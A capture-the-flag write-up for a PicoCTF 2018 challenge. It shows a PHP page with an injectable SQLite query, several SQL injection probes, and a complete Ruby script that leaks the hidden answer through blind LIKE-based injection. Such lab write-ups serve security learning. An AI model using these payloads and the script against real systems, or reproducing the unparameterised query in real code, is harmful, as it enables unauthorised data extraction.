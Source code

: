 ## Challenge
In this challenge, we were given a link to a basic website with a simple form.

"Try to see if you can answer its question"

## Discovery

A comment in the HTML of the form said:

```html
<!-- source code is in answer2.phps -->
```

I navigated to `/answer2.phps` and found the following:

```php
<?php
  include "config.php";
  ini_set('error_reporting', E_ALL);
  ini_set('display_errors', 'On');

  $answer = $_POST["answer"];
  $debug = $_POST["debug"];
  $query = "SELECT * FROM answers WHERE answer='$answer'";
  echo "<pre>";
  echo "SQL query: ", htmlspecialchars($query), "\n";
  echo "</pre>";
?>
<?php
  $con = new SQLite3($database_file);
  $result = $con->query($query);

  $row = $result->fetchArray();
  if($answer == $CANARY)  {
    echo "<h1>Perfect!</h1>";
    echo "<p>Your flag is: $FLAG</p>";
  }
  elseif ($row) {
    echo "<h1>You are so close.</h1>";
  } else {
    echo "<h1>Wrong.</h1>";
  }
?>
```

I took a few things away from this code. One, I know the exact SQL query that is being run when I submit the form.

```php
$query = "SELECT * FROM answers WHERE answer='$answer'";
```

Two, it seems that there are three potential outcomes of submitting the form: (1) you guess the right answer and
see the flag ("Perfect!"), (2) you get data back from the sql query ("You are so close.") and (3) you don't get 
data back from the SQL query ("Wrong").

I played with SQL injection. Quickly, I realized that I could know the column names on the answer table by plugging my
guesses into the query. For example, this SQL query returned a long error with a message about id not being a column name.

```sql
' UNION SELECT id FROM ANSWERS LIMIT 1;--
```

This query, however, did not return an error:

```sql
' UNION SELECT answer FROM ANSWERS LIMIT 1;--
```

I also tried some funky stuff to see if I could make more tables.

```sql
‘ BEGIN TRANSACTION; CREATE TEMPORARY TABLE backup(answer, id); INSERT INTO backup SELECT answer FROM ANSWERS; COMMIT;—
```

Then:

```sql
' UNION SELECT id FROM BACKUP LIMIT 1;--
```

None of that worked. Next I tried checking for wildcards

```sql
' OR answer LIKE "%" LIMIT 1;--
```

I didn't get an error, so I went further. Lets see if there are any spaces in the answer

```sql
' OR answer LIKE "% %" LIMIT 1;--
```
This returned an error, meaning that I could leak the answer one character at a time by monitoring whether I got an error
or not.


## Solution

I wrote a short ruby script to loop through the alphabet and try to find each character of the answer. If the response
was "You are so close", I added the character to the final answer string and looped throug the alphabet again to append
the next letter.

```ruby
require 'HTTParty'

index = 0
alphabet = ('!'..'z').to_a
final = ''
res = nil

until false
  current = alphabet[index]
  current = alphabet[index] == '%' ? "'#{ alphabet[index] }'" : alphabet[index]

  query = "' OR answer LIKE '#{ final }#{ current }%' LIMIT 1;--"

  options = {
    :body => {
      :answer => query,
      :debug => 0
    }
  }

  res = HTTParty.post('http://2018shell1.picoctf.com:32635/answer2.php', options)

  if res&.include?('You are so close')
    final += current
    index = 0
    puts "ITS A MATCH! #{ current }"
  else
    index += 1
  end
end
```

I learned a few things in this process. One, because % is a wildcard, but also a potential character in the answer string,
I needed to add quotes around it in the query.

```ruby
current = alphabet[index] == '%' ? "'#{ alphabet[index] }'" : alphabet[index]
```

Two, "LIKE" is case insensitive. My final string was `41ANDSIXSIXTHS`. However, when I tried to enter this in the form,
I got "You are so close". It took much table flipping and frustration to figure out that the answer was case sensitive.
Manual guessing got the answer - `41AndSixSixths`


___

PicoCTF 2018 - October 2018
